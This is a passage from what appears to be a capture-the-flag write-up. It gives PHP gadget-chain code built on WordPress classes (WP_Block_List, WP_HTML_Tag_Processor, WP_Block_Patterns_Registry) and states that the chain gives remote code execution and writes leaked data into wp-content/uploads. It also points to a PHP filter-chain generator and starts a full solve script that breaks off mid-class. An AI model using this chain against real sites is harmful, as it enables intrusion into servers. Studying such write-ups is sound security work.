 ```php
    public $html = 'huhu';
    public $parsing_namespace = 'html';
    public $attributes = array();
    public $classname_updates = [1];
    public function __construct($attributes){
        $this->attributes = $attributes;
    }
}

class SecureTableGenerator{
    public function __construct($tag){
        $this->allowedTags = array($tag);
    } 
}

$b = array("blockName" => "hehe");
$c = new WP_Block_Patterns_Registry();
$a = new WP_Block_List(array("class" => $b),"2",$c);
$d = new WP_HTML_Tag_Processor($a);
$e = new SecureTableGenerator($d);
```

From now, we can achieve RCE and leak information by writing it into the `wp-content/uploads` directory.

![image](https://hackmd.io/_uploads/BypcsLHYll.png)


Full solve script:

* [php_filter_chain_generator.py](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)
* chain.php

```php
<?php

class WP_Block_Patterns_Registry{
    
    public function __construct($payload) {
		$this -> registered_patterns = array('hehe' => array('filePath' => $payload));
	}
}

class WP_Block_List{
    public function __construct( $blocks, $available_context = array(), $registry = null ) {
		$this->blocks            = $blocks;
		$this->available_context = $available_context;
		$this->registry          = $registry;
	}
}

class WP_HTML_Tag_Processor{
    public $html = 'huhu';
    public $parsing_namespace = 'html';
    public $attributes = array();
    public $classname_updates = [1];
    public function __construct($attributes){
        $this->attributes = $attributes;
    }
}

class SecureTableGenerator{
    public function __construct($tag){
        $this->allowedTags = array($tag);
```